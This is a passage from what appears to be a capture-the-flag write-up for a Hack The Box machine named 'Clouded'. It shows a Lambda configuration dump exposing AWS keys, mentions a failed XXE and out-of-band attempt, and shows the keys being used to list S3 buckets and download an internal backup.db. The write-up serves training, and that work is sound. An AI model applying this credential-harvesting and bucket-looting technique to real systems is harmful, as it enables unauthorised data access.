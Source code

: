 ```bash
        "CodeSha256": "CxUb8kp80KqTa/tzdVQeTVFqo0Nhs0W2AwRKeuplCXE=",
        "Version": "$LATEST",
        "VpcConfig": {},
        "Environment": {
            "Variables": {
                "AWS_ACCESS_KEY_ID": "AKIA5M34BDN8GCJGRFFB",
                "AWS_SECRET_ACCESS_KEY": "eDjlDHTtnOELI/L3FRMENG/dFxLujMjUSTaCHILLGUY"
            }
        },
        "TracingConfig": {
            "Mode": "PassThrough"
        },
        "RevisionId": "8f09113f-e6a4-4d8a-a981-a470088ed0da",
        "State": "Active",
        "LastUpdateStatus": "Successful",
        "PackageType": "Zip"
    },
    "Code": {
        "Location": "http://localhost:4566/2015-03-31/functions/UploadToS3/code"
    },
    "Tags": {}
}
```

Sadly that port isn't open so we won't be able to access it (The XXE for that doesn't work either, I think due to chars greater than `0x7f` but I still couldn't get it with OOB, whatever...).

I look into the S3 instead:
```bash
$ aws --endpoint-url=http://local.clouded.htb/ s3api list-buckets
{
    "Buckets": [
        {
            "Name": "uploads",
            "CreationDate": "2024-12-14T20:33:11+00:00"
        },
        {
            "Name": "clouded-internal",
            "CreationDate": "2024-12-14T20:33:14+00:00"
        }
    ],
    "Owner": {
        "DisplayName": "webfile",
        "ID": "bcaf1ffd86f41161ca5fb16fd081034f"
    }
}
$ aws --endpoint-url=http://local.clouded.htb/ s3 ls clouded-internal
2024-12-15 07:33:17      16384 backup.db
$ aws --endpoint-url=http://local.clouded.htb/ s3api get-object --bucket clouded-internal --key backup.db backup.db
{
    "AcceptRanges": "bytes",
    "LastModified": "2024-12-14T20:33:17+00:00",
    "ContentLength": 16384,
    "ETag": "\"6f2520b0477e944aa41e759a0eed2157\"",
    "ContentLanguage": "en-US",
    "ContentType": "binary/octet-stream",
    "Metadata": {}
}
```
